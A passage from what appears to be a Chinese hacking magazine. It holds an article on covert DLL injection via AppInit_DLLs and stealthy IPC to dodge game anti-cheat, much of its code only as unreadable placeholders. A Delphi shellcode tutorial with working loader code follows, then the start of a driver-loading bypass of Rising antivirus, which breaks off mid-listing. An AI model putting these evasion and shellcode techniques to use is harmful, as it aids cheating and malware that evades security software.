逃避反外挂系统的检测是当今新生游戏黑客最大的障碍，而存活最久的逃避方法当属 DLL 注入。在外面流传的黑客技术/工具是最容易被封杀的，这仅在与目标游戏进行频繁交互的系统函数上挂钩即可实现。本文涵盖了这些技术及工具绕过检测的方法，仅通过向目标进程注入 DLL 来避免调用挂钩的系统函数，进而使这些黑客工具可以访问任何目标进程；如果直接调用的话就可能会被反外挂系统发现，进而被查杀。在本文中有两份独立代码，一份是用于注入到游戏进程的 DLL 文件，另一份是与 DLL 交互的工具，主要用于秘密获取目标进程的相关信息。


通过简单地调用函数 `Beep(!)` 便让我们知道此 DLL 是否被注入到目标进程了。这个可借助 DLL 注入工具，对任意进程注入我们的 DLL，如果听到响声就说明 DLL 已经被成功注入并执行了。注意：在 Windows 7 中，`Beep()` 函数使用默认声卡，不像其他版本的 Windows 将声音中继到主板喇叭上。另外，为了使用 Microsoft® Visual Studio® 调试 DLL，需先打开工程属性（Alt+F7），然后选择“Debugging”属性页，将“Command”设置为“winmine.exe”（Windows XP）或者“Minesweeper.exe”（Windows Vista 或 Windows 7）（译注：此为扫雷程序，必须输入完整路径才能执行，可通过浏览文件选择程序），以上都是在 Debug build 下创建的（读者可自行选择 Release build）。在 Debug 版本下按 F5 启动 Minesweeper，然后使用任意软件（比如内存搜索修改工具 MHS、CheatEngine 等）注入创建的 DLL。如果此时在 `DLLMain()` 上中断，你就可以看到当 DLL 被注入后即被断下。接着你可以从这里进行单步或普通调试。

##### 创建 DLL

DLL 文件是整个进程的最基本组成部分。我们先创建出一个 DLL 的基本框架，然后将其注入到进程中；关于 DLL 代码也没有什么特别之处，其源码如清单 1 所示。

##### 注入 DLL

在准备测试 DLL 注入前，需要先找出一种可偷偷注入所有进程的方法。下面有几种可将 DLL 注入目标的方法，当 DLL 注入进程后 DLL 即可正常工作而不会被检测到。反外挂软件通常是检测使用 `CreateRemoteThread()` 和 `SetWindowsHookEx()` 暴力注入的方法，但如果你想随意地使用这些注入进程，可以看看本文所揭露的方法：频繁被非侵入式（non_intrusive）程序所使用的 `AppInit_DLLs` 注册表键值（译注：`AppInit_DLLs` 表值是用于初始化动态链接库，它可以为任一进程调用一个 dll 列表，当进程启动后，`AppInit_DLLs` 中的 dll 文件就会注入到该程序里面去启动）。测试这种方法最简单的方式是手动将 DLL 文件路径添加到注册表中的：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\Current Version\Windows\AppInit_DLLs`

然后加载一个进程，比如记事本或计算器。

注意：在 Windows XP 中，这项工作甚是简单，但在 Windows Vista 中由于各项安全机制的保护，这种方法可能会受到限制。而在 Windows 7 上虽可实现，但只能通过一些循环跳转来修改注册表中的相同键值（`LoadAppInit_DLLs` 和 `RequireSignedAppInit_DLLs`）。对于这些系统，最好是使用一些替代 DLL 注入的方法。在将 `AppInit_DLLs` 设置为 `F:\temp\MyDll.dll`（没有引号）时，由于此值是通过空格进行分隔的，因此只能使用不包含空格的路径。更改注册表后，打开 Windows 系统上的计算器即可听到响声，可见 DLL 已经被加载了。若想恢复原样，只需删除注册表中的此值然后重启即可。

## 通讯原理

DLL 文件需要向系统中的每一个进程广播它的存在，如果有一个（或者更多）进程响应，它将会去“连接”此进程，并进行更多的通信。有很多方法可以建立一个私用通信网络，这里所谓的“私用（Private）”是指通信网络不会在软件内部引发警告。

所谓的“私用（Private）”是指通信网络不会在软件内部引发警告。如果你使用附带 `HWND_BROADCAST` 和 `(WM_USER+0x100)` 参数的 `SendMessage()`，那么反外挂系统就会捕获此消息，并假设你的通信网络正处于活动状态，接着将会终止游戏进程。

有许多方法可用来掩盖网络通信：其中一个方法是基于 LAN 通信来侦测通信网络；其他方法可根本不发送消息到目标窗口。但由于你的 DLL 文件名应该随机，因此只有 DLL 本身和客户端软件真正地知道 DLL 名称。如果客户端软件卸载了此 DLL，那么该 DLL 需要向其他未加载此 DLL 的进程发送秘密信息，以实现进一步的通信。这也是本文所选择的方法。客户端软件不能以其他方法进行通信，因为这可能会破坏游戏中某些保护机制。与此同时该 DLL 事先并不知道给定的进程是否是客户端进程，因此进行数据共享的地址也是无法预先确定的。此种方法可先通过 `SendMessage()` 进行首次连接，然后再使用 `ReadProcessMemory()` 和 `WriteProcessMemory()` 进行后续通信。

##### 做好准备

在实现通信层前有几个关键问题需要处理。首先至关重要的是，先创建一个用于与目标打交道的类。这个类里面封装了一些系统函数，便于后面进行重写和修改。例如，为了直接替代函数 `ReadProcess()`，可通过类中某实例来调用封装函数，它会转而调用函数 `ReadProcess()`。接着，当你想添加一个内核驱动程序来改变读取进程内存的方式时，你只需简单地重写类函数，并创建一个该类的实例即可，那么使用该类中封装函数的代码均会自动得到更正。下面的代码即是这样的一个类：

```cpp
// 代码示例截图（图中为 C/C++ 类与进程内存读写相关函数封装）
```

##### 建立连接

最后我们通过 DLL 与客户端程序建立连接，并使用一个类来管理每次连接。然而，为了达到这一点，我们必须先检测一下客户端程序。这似乎很简单，只是简单地将消息发送给每个进程，并判断进程是否响应。这种方法只分配一个缓冲区用于存放客户端响应信息，然后将此地址发送到每个进程中。若其中某进程的缓冲区被响应信息给填充了，那么它就是客户端进程。然而不幸的是我们可以打开多个客户端程序实例，如果它们同时将响应信息发送到同一个缓冲区，那么就有一份响应信息会丢失，而 DLL 只能与其中一个实例进行连接。因此我们需要为每个可能会响应的进程（基本上都有可能）提供一个缓冲区。一旦发现响应，我们将缓冲区发送给其代理的类，该类会处理所有与 DLL 间的通信并对客户端程序进行响应。

##### 通信缓冲区

我们的通信系统的工作原理是让每个程序（DLL 和客户端）将信息写入 RAM 内部指定的接收地址，此接收地址会被持续监测。每条消息以能够被 DLL 和客户端软件解析的特定格式来发送，这个我们可以通过结构体、联合体和枚举来构造这样的格式。首先，实际的消息类型需要被枚举，如清单 3 所示。

```cpp
// 清单3：消息类型枚举（图片中代码）
// 代码内容因图像噪声较大，无法完整辨识
```

每条消息格式的定义如清单 4 所示。

```cpp
// 清单4：消息结构定义（图片中代码）
// 代码内容因图像噪声较大，无法完整辨识
```

最后使用一个联合体让单个结构体以清单 4 中所示的格式来包含数据，具体见代码清单。

```cpp
// 清单5：连接初始化相关代码（图片中代码）
// 代码内容因图像噪声较大，无法完整辨识
```

注意在客户端和 DLL 中均将使用这种结构体。

##### 首次连接

当 DLL 想盯梢未注入 DLL 的程序时，就需要先尝试初始化连接。由于 DLL 欲注入到每一个启动进程中（但并不局限于此），因此我们可以假设未被注入 DLL 的进程会有意地从其自身卸载 DLL，并有可能成为我们想要建立连接的客户端软件。此外，假设游戏进程受反外挂系统保护，那么恶意程序将很难发送可疑的探测消息给游戏进程。一般来说所有连接工作都是相同的。客户端软件将有一个内存区域，此内存受到 DLL 的严格监管，当检测到有变更时，就会利用同一缓冲区来回应消息。然而初始化连接就需要发送一个 Windows 消息来设置这一切。更为复杂的是，DLL 并不知道哪个客户端窗口是首次连接的窗口，因此它必须发送消息给每一个由客户端线程创建的窗口。这则代码虽简单，但很长，关于代码解释参见清单 6 中的注释。

```cpp
// 清单6：首次连接处理代码（图片中代码）
// 代码内容因图像噪声较大，无法完整辨识
```

### 编程解析 PROGRAMMING ANALYSE

```c
// 代码清单（左上）
// 内容为与进程/线程通信、快照与枚举相关的 C/C++ 代码
```

```c
// 代码清单（右上）
// 内容为 DllMain/线程处理与通信初始化相关逻辑
```

调用 `EnumThreadWindows()` 需要以下辅助函数。这个函数实际是用于发送消息给客户端，以请求获得响应，代码参见清单 7。

```c
// 代码清单（左中）
// EnumThreadWindows 回调及通信缓冲相关定义
```

其中 `m_lpcbBuffers` 是一个由 `std::vector<LPHITB_COMMUNICATION_BUFFER>` 定义的类成员。我们用它记录每一次初始化连接，并用它来判断是否得到响应。关于这个函数，一旦我们拥有一个可能是客户端进程的 ID，就可以通过调用 `CDllMagic::InitiateCommunication()` 开始通信。现在我们需要做的就是找出客户端进程。

###### 查找客户端

从理论上来讲，查找客户端相对比较简单。由于查找过程必须持续进行，因此搜索例程必须是双线程的，以无限循环交替地进行搜索工作，直至被通知终止。另外，它必须不能消耗过多的 CPU 资源，因此它必须处于低优先级，并在循环中存在一定的休眠过程。在循环搜索中，对于无响应的进程，将不再打开，并移除相关的通信记录，然后释放资源。由于简洁没有附上这段代码，但在下面代码中会有所讲解。如代码清单 8 所示，它是一个静态函数，因为后面它将调用 `CreateThread()` 函数。`DllIsInProc` 简单地扫描进程中与当前 DLL 同名的模块，代码参见清单 9。

```c
// 代码清单（右中）
// 与进程遍历、窗口/线程回调和客户端判定相关
```

然后我们从新的主入口点来运行 DLL，如代码清单 10 所示。

```c
// 代码清单（右下）
// 新主入口点与线程启动/停止逻辑
```

##### 客户端响应

当 DLL 广播消息时，客户端的首要任务是接收这些信息。由于消息被发送到每一个窗口，因此很容易捕获，其代码如清单 11 所示。

```text
（清单11：客户端窗口过程/消息处理相关代码）
```

我们在客户端程序的主窗口过程中捕获消息，参数 `_lParam` 用于保存进程上下文中的通信缓冲区地址。为了测试系统是否处于工作状态，可在 break 上使用一段无用代码并设置断点，然后在 Visual Studio 中以调试模式运行客户端并注入 DLL 到其他进程。若注入后触发断点，说明系统正处于运行状态。

如在 DLL 中一样，我们同样使用一个类来处理与 DLL 的通信。这个类很简单：仅需要通信缓冲区指针以及与缓冲区交互的接口。对于每个发送到 DLL 的请求都会使用该接口。例如读取被 DLL 感染进程内存时，通过这个类可处理成功和失败等多种情况。这个类如清单 12 所示。

```text
（清单12：客户端通信类定义与接口代码）
```

由于最终会有很多运行程序连接到 DLL，因此需要使用数组来记录它们。该数组可由 `std::vector<CClientConnection*>` 完成。关于客户端连接数组的管理则交由读者实现。

只简单地使用上述 `vector` 和临界区（critical section）来实现。当通信类创建后，就会清楚地知道如何使用它们并结合其他方法管理这些对象。该对象构造函数会请求通信响应，这里将缓冲区类型设置为 `HITB_COMMUNICATION_BUFFER::HITB_INITIALREPLY`。由于缓冲区可能是无效内存地址，读写可能导致客户端崩溃而不是中断；因此可使用静态函数进行检测，并返回已创建对象指针以判断地址有效性。代码参见清单 13。

```text
（清单13：通信对象创建与缓冲区有效性检测代码）
```

在这个静态函数的帮助下，添加一个通信对象就变得容易多了。清单 14 列出了一个使用该管理系统的示例函数。

```text
（清单14：添加/管理客户端连接对象示例代码）
```

剩下的就是对 Windows 消息挂钩，代码参见清单 15。

```text
（清单15：挂钩消息处理函数代码）
```

##### Sealing The Deal

当客户端正对来自 DLL 的初始连接进行响应时，DLL 会捕获此响应，并在 DLL 与客户端之间创建一个专用线程用于通信。我们修改搜索线程以检测这些响应信息是否来自客户端。检测函数如清单 16 所示。

```cpp
// 清单16：用于检测缓冲区类型/响应信息的相关代码（图中文字不清晰）
```

由于客户端运行在其自身的地址空间中，因此我们将客户端本地的响应缓冲区数据复制到 DLL 中以便于操作。当缓冲区位于本地时，需要检测它的缓冲区类型。下面是用于在主 DLL 线程中检测响应信息的辅助函数，代码如清单 17 所示。

```cpp
// 清单17：检测响应信息的辅助函数（图中文字不清晰）
```

在文章开头处我们就创建了一个类，用于处理 DLL 与客户端软件间的单一连接。`CreateLink()` 函数就是用于创建这样的一个类，并让它在自身线程中运行。该类运行在自身线程中，并循环运行，直至连接中断或者 DLL 程序关闭，或者客户端程序关闭。每一循环都会检测远程通信缓冲区，以判断客户端程序创建的缓冲区是否被填充满。该类的结构如清单 18 所示。

```cpp
// 清单18：连接处理类结构代码（图中文字不清晰）
```

```cpp
// 清单19：处理来自客户端请求的函数代码（图中文字不清晰）
```

这个类可处理的基本功能是附加和分离客户端进程，并持续检测客户端进程是否关闭。当连接被创建时，该类将目标进程（客户端程序）中的消息状态设置为空闲（idle）。这是必需的，否则 DLL 将不停地去尝试连接客户端。接下来我们添加一个处理规则的函数，用于处理来自客户端程序的请求。当此函数被调用时，就会去检测是否存在请求，如果发现存在请求，就对其进行响应以满足请求。该函数的代码如清单 19 所示。

```cpp
// 清单20：线程函数（公共静态函数）代码（图中文字不清晰）
```

这个函数会在它自身的线程中不断地被循环调用，然后我们添加一个线程函数，它是个公共静态函数。代码如清单 20 所示。

```text
（代码清单21，内容为 C/C++ 代码）
```

最后，使用 `CreateLink()` 函数创建一个类对象，并在自身线程中启动，然后再创建一个嵌套结构，用于存储类对象和运行线程的句柄，代码参见清单 21。

```text
（代码清单22，内容为连接管理相关 C/C++ 代码）
```

接着为这一连接数组创建两个管理例程，其中一个用于创建连接（`CreateLink()`），一个用于关闭连接，如清单 22 所示。

```text
（代码清单，内容为通信缓冲区/连接控制相关 C/C++ 代码）
```

上面另外添加了一个 `Stop()` 函数。

##### WHAT IS HAPPENING

当主 DLL 循环函数检测到初始连接的响应信息时，`CreateLink()` 就会被调用。当远程进程将缓冲区中的 `mType` 成员设置为 `HITB_COMMUNICATION_BUFFER::HITB_INITIALREPLY` 时，初始连接的响应信息也会被检测到。

当 DLL 检测到这些改变时，`CTargetProcess` 对象就会被创建，用于处理与客户端的后续通信。为了避免对同一客户端重建连接，客户端进程的缓冲区可被 DLL 远程将 `mType` 成员设置为 `HITB_COMMUNICATION_BUFFER::HITB_IDLE`。

这也意味着客户端进程可以使用本地缓冲区进行通信。接下来 DLL 发送新建的 `CTargetProcess` 对象给自身线程中的循环函数，用于检查和处理远程客户端中的缓冲区数据是否被更改。每次检查，都必须对本地缓冲区数据进行复制。它可以直接修改客户端应用程序，因为客户端程序并不能修改 DLL 进程，这在网络通信上是为了避免去修改被反外挂保护的 DLL 进程。

##### LET’S COMMUNICATE!

现在 DLL 与客户端程序可进行通信了，剩下的就是决定创建何种类型的请求。本文只演示两种请求：读取和写入 DLL 进程的 RAM。

为了添加新的请求类型，就必须修改 `HITB_COMMUNICATION_BUFFER` 结构。我们可添加一个新的请求类型给枚举结构，并将包含新建请求类型的数据结构添加进去。在清单 23 中我们添加了 `ReadProcessMemory()` 和 `WriteProcessMemory()` 请求。

```text
（代码清单23，内容为 ReadProcessMemory()/WriteProcessMemory() 请求相关 C/C++ 代码）
```

为了处理这些消息，我们修改了 `CTargetProcess` 类中的 `Tick()` 函数，如清单 24 所示。

```cpp
// 清单24：CTargetProcess::Tick()（代码截图）
// 主要逻辑：检查通信缓冲区状态、处理读取/写入请求、
// 调用 ReadProcessMemory/WriteProcessMemory、
// 并在请求完成后重置缓冲区状态。
```

```cpp
// 代码截图（与清单24相关的后续逻辑）
// 包含通信状态判断、临界区保护、缓冲区类型切换等。
```

当客户端请求读取内存时，就需要从 DLL 进程中复制内存到客户端进程中。从 DLL 进程的角度看，这个使用 `WriteProcessMemory()` 即可解决。反之，亦可处理从客户端向 DLL 写入内存的请求。在响应每一个请求后，返回的数据必须发送到客户端程序，并覆盖之前的缓冲区，但只需修改与被执行请求类型相关的数据即可。每次请求过后都需要将客户端程序的缓冲区重置回空闲状态，可使用清单 25 的代码来初始化客户端程序的请求。

注意，上面添加了 `HITB_COMMUNICATION_BUFFER::HITB_CLOSING` 这一缓冲区类型。这告诉我们目标进程即将关闭。在初始化检测后，本地缓冲区可能变成 `HITB_COMMUNICATION_BUFFER::HITB_CLOSING`。如果我们简单地通过复制来覆盖本地缓冲区（比如 `m_lpcbBuffer->mType = HITB_COMMUNICATION_BUFFER::HITB_WPM`），那么我们就必须承担陷入死循环的风险，因为 DLL 从不会响应我们的请求。这也是使用 `InterlockedCompareExchangeAcquire()` 的原因所在。最后，通过设置 `HITB_COMMUNICATION_BUFFER::HITB_CLOSING` 以避免资源泄漏。另外我们在 DLL 的 `CTargetProcess` 类中添加了一个析构函数，参见清单 26。

```cpp
// 清单25：初始化客户端请求（代码截图）
// 涉及请求缓冲区重置、状态更新与同步控制。
```

```cpp
// 清单26：析构/关闭相关代码（代码截图）
// 发送 HITB_CLOSING 并进行资源释放。
```

当从 DLL 到客户端的连接关闭后，就不会再对它响应任何请求，因此最后我们发送一条消息 `HITB_COMMUNICATION_BUFFER::HITB_CLOSING` 给它。由于类中的析构函数只在其管理线程和主线程完全终止时才会被调用，因此在……等待请求时缓冲区状态不存在任何风险。在编码客户端程序时应当意识到，缓冲区可在任一时刻被更改为 `HITB_COMMUNICATION_BUFFER`、`HITB_CLOSING`。

利用以上代码，客户端可以在任一时刻读取电脑上的任一进程的内存，这只需简单地调用通信对象中的 `ReadProcessMemory()` 函数即可实现，并且可悄悄地运行，而不被当前运行的反外挂系统发现。虽然这种方法比直接访问进程速度会慢几倍，但可突破它的保护机制。这里使用比较基础的编程知识，完全在 Ring3 下运行，读者可在此基础上对其进行改进。

##### 小结

在 DLL 与客户端之间的密码在每次启动后都必须是随机变化的，并对 DLL 使用硬编码。客户端程序实际上是可以修改 DLL 的，它可在下次对进程进行 DLL 注入前更改密码，但这也会更改 DLL 的 MD5/校验和。DLL 的大小在每次启动中也应该是随机的，这个通过在文件末尾添加随机大小的字节即可实现。注意，在 DLL 中并不存在字符串，因为字符串常常被反外挂系统用来检测 DLL。DLL 也可升级到内核模式。通过重写 `CProcess` 类中的方法，即可在 Ring0 上实现 DLL 与客户端间的信息交互，并去掉其中最可能被检测到的方法。几乎所有欺骗游戏保护系统的方法都是通过对游戏进程进行 DLL 注入，将这种思路扩展出来，我们还可以利用它实现远程控制进程。

前置知识：汇编 Delphi

关键字：ShellCode, Delphi

#### 利用 Delphi 玩转 ShellCode


文／图 xfish

ShellCode 一直以来是 Exploit、Virus、Pack 等必不可少的组成部分，在我看来 ShellCode 也是门艺术：精简的体积、强大的功能、完善的独立性，你难道不该称呼这样的代码为艺术吗？如果说 ShellCode 是门艺术，那么编写 ShellCode 就更是门艺术。举个简单的例子，RAT 中最典型的代表——Poison Ivy，它所有的功能代码全部分离成 ShellCode 模块，在客户端需要的时候才会将功能代码（ShellCode）传输过去，既保证了免杀，也塑造了体积。

再举个例子，多年前 29a 作者 Holy_Father & Ratter 的作品 Morphine 壳，它以强大的多态变形引擎 Loader 傲视当年 AV（Anti Virus）世界。难道这样的作品你也不感叹它是门艺术吗？那么既然编写 ShellCode 是门艺术，我们就要选择一个创造艺术的环境。目前绝大多数人选择 Visual C++ 或者 MASM，Delphi 或许已经被遗忘了，但是今天我们的主题就是利用 Delphi 来玩转 ShellCode，让这个强大的利器能被展现出来。当然 Delphi 这个环境也不是绝对的强大，它只是我们可选择的一种而已，其实编写精巧的 ShellCode 最好还是利用 asm、fasm。

##### 编程解析（栏目：socket）

就不浪费大家时间了，请跟随我向今天的主题跑步前进吧！

首先我们要理解 ShellCode。ShellCode 是一段可以在内存中执行的代码，它不需要外界的力量。你可以把它比喻为内存中的可执行文件，因为它就好比你磁盘中的文件一样。只不过磁盘中的文件需要加载器来支持，而它需要内存来支持。既然它不需要外界的力量，那它肯定是独立的。所以大部分的工作必须自己去做，例如获取函数地址、处理重定位等。而平常我们的程序都需要加载器来帮你完成，这也是为什么你的程序必须要以 PE 文件格式来进行输出，因为有了固定的格式加载器才能正确解析你的程序，最后帮你完成初始化工作。

通过以上的了解，我们就宏观上把编写 ShellCode 需要注意的地方进行以下的总结：

- 函数必须动态地获取并执行。
- 固定地址必须处理重定位。

哇，这么简单？呵呵，当然不是。这只是从整体上总结，细节上的问题我们还没有总结呢，不过关于细节上的问题，我决定还是从实例中出发吧。

看到函数动态获取，我想大家肯定首先想到的函数就是 GetProcAddress，但是我们的 ShellCode 是在内存中执行的，它事先怎么能确定这个函数的地址呢，并且我们的 ShellCode 还要在各个计算机中执行。如何解决呢？当然是我们自己动手解决，也就是自己实现一个与它功能一样的函数。这里如果要减少体积，你还可以在自己的 GetProcAddress 函数中针对函数名称匹配的时候，通过 Hash 算法来完成，这样就减小了自己函数名称的体积。因为这个函数实在是太简单，所以我就不讲这个函数的写法了，直接提供给大家一个函数。

```pascal
function xGetProcAddress(hModule: HMODULE; dwProcNameHash: DWORD): FARPROC; stdcall;
var
  lpNtHeaders: PImageNtHeaders;
  lpExportDirectory: PImageExportDirectory;
  dwLoop: DWORD;
  lpdwNameAddress: PDWORD;
  lpdwOrdinals: PWORD;
  lpszName: PChar;
  dwCrcReg: DWORD;
begin
  ...
end;
```

```pascal
Result := nil;
if (PImageDosHeader(hModule)^.e_magic <> IMAGE_DOS_SIGNATURE) then Exit;
lpNtHeaders := PImageNtHeaders(hModule + DWORD(PImageDosHeader(hModule)^._lfanew));
lpExportDirectory := PImageExportDirectory(
  lpNtHeaders.OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress + hModule);
...
for dwLoop := 0 to (lpExportDirectory.NumberOfNames - 1) do
begin
  lpszName := PChar(lpdwNameAddress^ + hModule);
  dwCrcReg := GetRolHashPascal(lpszName);
  if (dwCrcReg = dwProcNameHash) then
  begin
    Result := Pointer(DWORD(lpExportDirectory.AddressOfFunctions)
      + ((lpdwOrdinals^) * SizeOf(DWORD)) + hModule);
    Result := Pointer(PDWORD(Result)^ + hModule);
    Break;
  end;
  Inc(DWORD(lpdwNameAddress), SizeOf(DWORD));
  Inc(DWORD(lpdwOrdinals), SizeOf(WORD));
end;
```

上面的函数匹配函数名时用的 Hash 算法是非常简单的 Rol_3 运算，Hash 算法如下：

```pascal
function GetRolHashPascal(lpszBuffer: PChar): DWORD; stdcall;
const
  Rol_Count = 3;
begin
  Result := 0;
  while (lpszBuffer^ <> #$0) do
  begin
    Result := ((Result shl Rol_Count) and $FFFFFFFF)
      or (Result shr (32 - Rol_Count)) xor PBYTE(lpszBuffer)^;
    Inc(PBYTE(lpszBuffer));
  end;
end;
```

好了，到这里我们的 GetProcAddress 函数已经打造成功，接下来我们该解决的是固定地址的重定位处理。看一下平常我们用 Delphi 调用的一个函数（MessageBoxA），最终编译后的结果如图1所示。


图1

通过图1我们可以看到我们调用的是 MessageBox 函数，4个参数分别传入0，而 call 指令在调用的时候后面是相对偏移（当然这里是指 Delphi 编译器，不过我们在编写的时候调用的是我们自己表中的地址，所以这里可以省略）。函数调用我们没有进行传参，接下来我们传入参数后再来看下结果如图2所示。


图2

通过图2我们可以看到，传入的2个参数分别以固定地址进行压入，分别是 `$00407cf8`、`$00407d00`。你有没有注意到这两个地址与我们的调用代码地址非常接近？没错，这就是 Delphi 编译器的特点。如果我们在函数或者过程中调用常量字符串的话，它会把这些字符串的位置编译在我们函数的尾部。通过图3你可以清晰地看到。


图3

你是否觉得 Delphi 这个特点十分强大呢？呵呵，因为大部分的编译器是直接将字符串常量编译在全局数据段，Delphi 编译却是在调用过程的尾部，这样的话，很方便我们将代码进行移植。

```pascal
procedure Start;
asm
  jmp ShowMessage
end;

procedure ShowMessage;
begin
  MessageBox(0, 'This is Demo!', 'Hi!', MB_OK);
end;

procedure StartEnd;
begin
end;
```

```pascal
MessageBox(0, 'This is Demo!', 'Hi!', MB_OK);
...
procedure StartEnd;
begin
end;
```

通过上面的代码段，可知 StartEnd 的函数偏移 − Start 的函数偏移 = 我们要移植的代码大小。并且由于 Delphi 的特性，它会把字符串常量编译在函数的尾部，这里也就是 ShowMessage 过程的尾部。利用这个特性我们计算的代码大小也就包含了字符串的大小。现在你明白上面所说的移植非常容易的意思了吧？不过这里要注意一下，编写 ShellCode 最好在单元文件中来写，这样在 Interface 块中声明我们的函数原型，我们就可以在单元的任意位置进行访问了。

好了，通过以上的了解，我们明白了 Delphi 针对字符串常量的编译特点，以及了解了 Delphi 移植代码的可便利性。接下来我们来说下重定位，我们刚刚看到我们编译的字符串常量是固定的地址，假设我们把代码移动到申请的内存区域中去执行，程序肯定会报错，因为之前固定的地址很可能是其他的数据。所以这就需要我们动态地去修正固定地址。如何去修正呢？首先我们通过计算“编译阶段与运行时”的偏移差，通过这个偏移差加上原来的地址就是我们修正后的地址。

```asm
call @Dels
int 1
@Dels:
pop eax
sub eax, (offset @Dels-2)
```

执行以上代码，eax 寄存器保存的就是我们的偏移差。我们通过这个偏移差加上原有的编译地址就等于修正后的地址。好了，我们写个修正字符串偏移的函数。

```pascal
function FixPChar(pszString: PChar; dwDels: DWORD): PChar; stdcall;
begin
  Result := PChar(DWORD(pszString) + dwDels);
end;
```

如果以上的基础知识你已经了解，就请跟随我进入实战领域，我们真刀真枪地编写 ShellCode。编写什么呢？我们就编写上面演示的例子吧，调用一个 MessageBoxA 函数。首先的工作是搭建平台，也就是我们上面所说的代码移植平台：MessageBoxA 来完成我们的工作。这里我为了演示字符串和 Hash 的调用，所以我获取系统的 GetProcAddress 函数。你也完全可以使用字符串或者 Hash，这取决于你的结构表如何去设计。好了，我们看下最终形成的代码。

```pascal
procedure ShellCodeEntry;
asm
  call ShellCodeStart
end;

procedure ShellCodeStart;
begin
end;

procedure ShellCodeEnd;
begin
end;
```

然后我们只要专心在 ShellCodeStart 过程中编写我们的主要代码就可以了。上面我所演示的是调用字符串，但是假如我们要使用一个结构表，这个表我们怎么存储？也就是它存储的位置在哪里呢？这里就得发挥我们的想象空间，我们可以把 ShellCodeEnd 过程的偏移处当做我们定义的结构来进行处理，这样在生成 ShellCode 的时候，我们把表追加到 ShellCodeStart 过程的尾部就可以了。是不是觉得很酷？

接下来我们定义一个结构来存储我们要调用的函数地址：

```pascal
PTShellData = ^TShellData;
TShellData = packed record
  fGetProcAddress: function(hModule: HMODULE; dwProcNameHash: DWORD): FARPROC; stdcall;
  fGetKernalBase: function(): HMODULE; stdcall;
  GetProcAddress: TGetProcAddress;
  LoadLibraryA: TLoadLibraryA;
  MessageBoxA: TMessageBoxA;
  gDels: DWORD; // 重定位偏移
end;
```

我们的工作就是首先初始化结构表，第一个初始化的成员就是 gDels，因为这里保存的是重定位偏移。接下来我们需要它来计算我们的函数地址。初始化完成后，我们调用 fGetKernalBase 和 fGetProcAddress 获取 LoadLibraryA 和 GetProcAddress 的地址。有了这两个函数，我们首先调用 LoadLibraryA 加载 user32.dll，然后 GetProcAddress 获取 MessageBoxA 的函数地址，最终我们调用 MessageBoxA 来完成我们的工作。

```pascal
procedure ShellCodeStart;
var
  dwTemp: DWORD;
  pShellData: PTShellData;
begin
  // 计算重定位
  asm
    call @Dels
    int 1
  @Dels:
    pop eax
    sub eax, (offset @Dels) - 2
    mov [dwTemp], eax
  end;

  // 获取结构表
  pShellData := Pointer(DWORD(@ShellCodeEnd) + dwTemp);
  with pShellData^ do
  begin
    // 初始化结构表
    gDels := dwTemp;
    fGetProcAddress := Pointer(DWORD(@xGetProcAddress) + gDels);
    fGetKernalBase := Pointer(DWORD(@GetKernelBase) + gDels);

    LoadLibraryA := fGetProcAddress(fGetKernalBase(), $A42FD89);
    GetProcAddress := fGetProcAddress(fGetKernalBase(), $F2509B84);

    // 调用函数
    MessageBoxA := GetProcAddress(LoadLibraryA(FixPChar('user32.dll', gDels)),
                                  FixPChar('MessageBoxA', gDels));
    MessageBoxA(0, FixPChar('Hi, this is shellcode', gDels),
                FixPChar('xfish', gDels), MB_OK);
  end;
end;
```

这里我们的 ShellCode 代码已经编写完成，我们把它 Copy 到我们申请的内存地址中去执行。

```pascal
dwShellSize := (DWORD(@ShellCodeEnd) - DWORD(@ShellCodeEntry)) + SizeOf(TShellData);
pShellBuffer := VirtualAlloc(nil, dwShellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
CopyMemory(pShellBuffer, Pointer(@ShellCodeEntry), dwShellSize);
```

```asm
asm
    mov eax, [pShellBuffer]
    call eax
end;
```

OK，我们可以看到我们的代码已经在申请的内存位置中执行成功了，见图4。


图4

到此本篇文章就该画上一个句号了，本文主要叙述了 Delphi 编写 ShellCode 的方法以及相应的技巧，Delphi 在内嵌 asm 方面做的要比 Visual C++ 编译器好很多，不过 Visual C++ 编译器也有很多强大的地方，这些留到今后再给大家呈现吧！最后希望此篇文章能给大家带来一些帮助，也希望通过此篇文章，大家今后在编写 ShellCode 的时候并不局限于汇编编译器以及 Visual C++ 编译器，要知道其实 Delphi 也是一个强大的利器。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC

关键词：编程、驱动、微过滤驱动


#### 利用 Fltmgr 加载驱动绕过瑞星剖析

文/图 Fireworm

在这个病毒与 Rootkit 横行的时代，驱动加载无疑是重中之重，而各种 ARK 以及 Hips 对驱动也是严加防范，比如 ZwLoadDriver、ZwSetSystemInformation 等，这些 API 大多都被 SSDT Hook 了，使用这些 API 会被拦截，从而使得驱动无法加载。在最新版的瑞星 2010 中，瑞星 Hook 了不少函数，如图1所示，使得以前的绕过办法失效了，不过漏洞依旧存在。

微软为 Windows 专门设计了一套微过滤驱动（Minifilter），这套驱动是专用于管理文件过滤驱动的加载和运行的，很多的虚拟磁盘驱动，还有还原软件常用的磁盘过滤驱动，都是使用微过滤驱动进行加载的，而且一般杀毒软件对这方面管得并没有那么严，所以可以从这里下手去加载。

不同于其他的驱动，Minifilter 由一个独立的 manager 管理而不仅仅是 SCM（服务管理器），其全称为 Microsoft File System Filter Manager，是由微软提供的为简化第三方过滤驱动而开发的文件系统过滤驱动。由这个 Filter Manager 开发的驱动叫做微过滤驱动，而微过滤驱动的加载也很简单，和一般的驱动并无太大差别，createService 后 startService 就可以搞定。加载驱动的主要代码比较简单，具体如下：


图1

```c
int main(int argc, char *argv[])
{
    HANDLE hDevice;
    LOAD service_to_load;
    BOOL err;
    DWORD dwRet = 0;
    WCHAR drvPath[512];
    memset(drvPath, 0, 512);
    GetCurrentDirectoryW(MAX_PATH, drvPath);
    // 将驱动放在当前目录下进行加载
    lstrcatW(drvPath, L"\\DNFDK.sys");
    // 这里测试用的驱动名是 dnfdk
    make_reg(L"load", drvPath);
    hDevice = CreateFile("\\\\.\\FltMgr", GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL, NULL);
    // 启用 FltMgr 进行驱动的加载
    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("CreateFile failed with status : %d\n", GetLastError());
        goto __end;
